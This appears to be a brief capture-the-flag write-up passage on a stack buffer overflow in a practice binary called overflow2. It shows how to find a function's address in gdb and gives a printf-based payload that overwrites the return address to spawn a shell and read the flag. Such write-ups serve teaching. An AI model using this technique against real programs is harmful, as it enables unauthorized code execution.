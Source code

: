 Slightly more difficult overflow, but generally, we want to execute `give_shell`. Get the address using gdb: `p give_shell`.

Then run `./overflow2 $(printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb0\x84\x04\x08")`, and you can cat the flag!